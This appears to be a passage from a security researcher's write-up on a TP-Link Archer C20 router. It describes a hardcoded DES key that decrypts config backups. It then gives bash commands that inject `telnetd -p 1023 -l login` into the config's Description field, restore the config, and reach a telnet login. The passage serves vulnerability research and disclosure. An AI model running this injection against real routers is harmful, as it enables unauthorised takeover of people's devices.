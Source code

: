 To understand how the config was encrypted, I looked at the web server's handler function for the `/cgi/confencode` endpoint. The handler function used DES encryption with a hardcoded key in libcmm.so.

![](/assets/tp_link_gdpr/tp_link_hard_coded_des_key.png)

Using this key, we can decrypt the config file and see the giant XML config. I wanted to see if I was the only researcher who was looking at this attack surface, so I Googled the hardcoded key. It turns out that I wasn't alone.

![](/assets/tp_link_gdpr/tp_link_config_key_google.png)

The tpconf_bin_xml GitHub repository handles the encryption/decryption and compression/decompression of TP-Link config files [[link]](https://github.com/sta-c0000/tpconf_bin_xml). It also describes a command injection vulnerability found in the Description field in the DeviceInfo section. It was developed for the TP-Link TD-W9970, but I gave it a try on the Archer C20 and it worked!

```bash
# Downloaded the current config as ArcherC20V520121442010n.bin
python3 tpconf_bin_xml.py -l ArcherC20V520121442010n.bin ArcherC20V520121442010n.xml
# Added the command injection to the decrypted config file.
#
# Before:
#
# <Description val="AC750 Wireless Dual Band Router " />
#
# 
# After
#
# <Description val="AC750 Wireless Dual Band Router`telnetd -p 1023 -l login` " />
python3 tpconf_bin_xml.py -l ArcherC20V520121442010n.xml ArcherC20V520121442010n.payload.bin

# Then using the web interface, restore the ArcherC20V520121442010n.payload.bin config

# Username: admin
# Password: 1234
telnet 192.168.0.1 1023
Trying 192.168.0.1...
Connected to 192.168.0.1.
Escape character is '^]'.
Archer C20 login: admin
Password: 
```